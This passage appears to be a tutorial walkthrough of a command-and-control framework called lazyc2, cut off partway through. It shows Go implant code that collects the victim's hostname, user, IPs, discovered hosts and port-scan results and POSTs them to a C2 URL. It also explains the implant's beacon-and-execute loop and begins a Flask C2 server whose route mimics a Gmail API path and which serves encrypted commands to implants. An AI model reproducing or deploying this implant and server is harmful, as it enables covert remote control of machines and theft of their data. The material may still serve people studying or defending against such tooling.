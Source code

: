 ```go
        "output":          output,
        "client":          runtime.GOOS, // OS name (windows, linux, darwin)
        "command":         command,
        "pid":             strconv.Itoa(pid),
        "hostname":        hostname,
        "ips":             strings.Join(ips, ", "),
        "user":            currentUser.Username, // Current user on target
        "discovered_ips":  discoveredLiveHosts, // IPs found during initial discovery
        "result_portscan": resultadosEscaneo,   // Port scan results if done
    })

    // Send the JSON data back to the C2 server via POST
    c2ResultURL := C2_URL + MALEABLE + CLIENT_ID
    retryRequest(ctx, c2ResultURL, "POST", string(jsonData), "") // retryRequest handles encryption
}
// --- End Simplified Implant Go code ---
```
*Explanation:* The main loop in the implant Go code wakes up after a sleep period, constructs a URL containing its unique ID, and sends a GET request (`retryRequest`) to the C2 server to fetch a command. If a command is received, it uses a `switch` statement to check for special commands (like `download`, `upload`, `stealth_on`) or executes it as a general system command (`handleCommand`). The `handleCommand` function runs the command (`executeCommandWithRetry`), gathers system information, formats everything into a JSON object, and sends it back to the server via a POST request to the same URL.

**C2 Server (`lazyc2.py`) - Handling Implant Requests:**

```python
# --- Simplified C2 Server Python code (lazyc2.py) ---
from flask import Flask, request, jsonify, Response
import json
import os
import csv
import base64
# Assume AES_KEY, encrypt_data, decrypt_data, connected_clients, commands dict are defined

app = Flask(__name__)

# Define the base maleable route
route_maleable = "/gmail/v1/users/" # Example route from config

# Dictionary to hold commands waiting for implants {client_id: command_string}
commands = {}
# Dictionary to hold the last received results {client_id: result_dict}
results = {}
# Set to track connected client IDs
connected_clients = set()
# Assume ALLOWED_DIRECTORY is configured for saving logs

@app.route(f'{route_maleable}<client_id>', methods=['GET'])
def send_command(client_id):
    """Handles implant beacon (GET request to fetch commands)."""
    connected_clients.add(client_id) # Mark client as connected
    
    if client_id in commands:
        # Command is waiting, get it and remove from queue
        command = commands.pop(client_id)
        print(f"[C2] Sending command '{command}' to client {client_id}")
        encrypted_command = encrypt_data(command.encode()) # Encrypt the command
        return Response(encrypted_command) # Send encrypted command
    else:
        # No command waiting, return empty encrypted response
        print(f"[C2] No command for client {client_id}")
        encrypted_response = encrypt_data(b'') # Empty byte string encrypted
```